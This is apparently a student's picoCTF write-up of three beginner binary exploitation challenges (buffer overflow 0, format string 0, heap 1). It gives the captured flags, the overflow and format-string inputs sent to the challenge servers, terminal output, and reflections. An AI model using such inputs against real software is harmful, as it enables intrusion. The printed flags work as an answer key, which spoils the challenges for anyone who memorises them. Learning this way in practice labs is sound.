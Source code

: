 # Binary Exploitation
## buffer overflow 0
## Flag
~~~
bash
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
~~~
Step 1:
Before buffer overflow 0 I tried some easy challenges of binary exploitation such as heap 0.
Code and Terminal Output
~~~
nc saturn.picoctf.net 60203saps@LAPTOP-KKUS7K8J:~$ nc saturn.picoctf.net 60203
Input: man gets
The program will exit now
jejwijkepoekpknewkpwemlpewmnwkekpnkem
saps@LAPTOP-KKUS7K8J:~$ nc saturn.picoctf.net 60203
Input: jejwijkepoekpknewkpwemlpewmnwkekpnkemeu8eu9jiejoknidjoxok33
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
~~~
Learnings
A) Now as I stated above before this I tried my hands on the easy challenges such as heap 0, so keeping the learnings which I learnt in heap 0 in mind, I tried this the same way.
Firstly I launched the instance as well as checked out the source code.
When the source code opened I saw that the string buf2 can only be maximum 16 characters and if I input more than 16 letters that data would overflow and the behaviour of the program would be manipulated and the flag might be printed.
That is exactly what happened here and the flag got printed when I entered a string with excessive letters.
B) Now this is how I related it to heap 0 and could do it so quickly, because in heap 0 i tried and tested alot and after checking out the source code I realized that in that as well after printing some choice I had to overflow the data so it could into the safe variable and print me the flag.
Other Methods
I only tried entering man gets, i dont know why I did that as that was given to me in the hint section but that wouldnt do anything as the man page cannot be printed out in this instance, everything else I learnt in heap 0.

![image](https://github.com/user-attachments/assets/0c919a2a-7e32-46fa-8a66-f9627747217a)

References:
No references used per say other than the videos provided in the document itself under binary exploitation.


## format string 0
## Flag
~~~
bash
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
~~~

Step 1:
Same as the above question I had to check out the source code firstly and then I got to know that I had to input Gr%114d_Cheese which contains a format string %ll4d and is the only format string out of the 3 options.
Step 2:
That worked out and then I had to choose between 3 options again, and again only one string consisted of %s which is a string formatter and that worked and gave me the flag.

![image](https://github.com/user-attachments/assets/0308450f-aa37-42d5-8d96-e247c8739b3f)

Code and Terminal Output:
~~~
bash
 nc mimas.picoctf.net 58514
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
~~~


Learnings:
A) already knew about string formatters which were %lld and %s and using that concept got the flag.

References:
https://www.youtube.com/watch?v=CRTR5ljBjPM&ab_channel=LowLevel
watched the above video which didnt really have anything to do with the above challenge but still.


## heap 1

Flag
~~~
bash
picoCTF{starting_to_get_the_hang_c588b8a1}
~~~


Step 1:
In this challenge, just like heap 0, I opened the source code and the instance and this was just like heap 0.
But at first I didnt notice the difference between both and just tried what I did in heap 0 to obtain the flag.
Knowing that there would of course be some catch but still did it and it of course didnt work.
Step 2:
Went to the source code and carefully examined it.
That is when I saw it, the safe word shouldnt be pico or it wouldnt give me the flag.
Step 3:
So at first I entered all the alpha numeric characters to figure out which ones overflow to the safe var, once discovered that I entered such a string that would overflow pico to the safe var and give me the flag and it did.

![image](https://github.com/user-attachments/assets/f1dd9d56-e857-4663-931d-1f261ae7aea9)
![image](https://github.com/user-attachments/assets/144bccb4-0f7d-4d23-b4bd-1fc07cb58597)


Code and Terminal Output
~~~
bash
 nc tethys.picoctf.net 51553

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5f7d1207b2b0  ->   pico
+-------------+----------------+
[*]   0x5f7d1207b2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: abcdefghijklmnopqrstuvwxyz123456pico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5f7d1207b2b0  ->   abcdefghijklmnopqrstuvwxyz123456pico
+-------------+----------------+
[*]   0x5f7d1207b2d0  ->   pico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_c588b8a1}
~~~


Learnings:
A) nothing new learnt as such just a key takeaway to not straight dive into the question, instead taking a little time to read the source code and understand what the question actually requires.








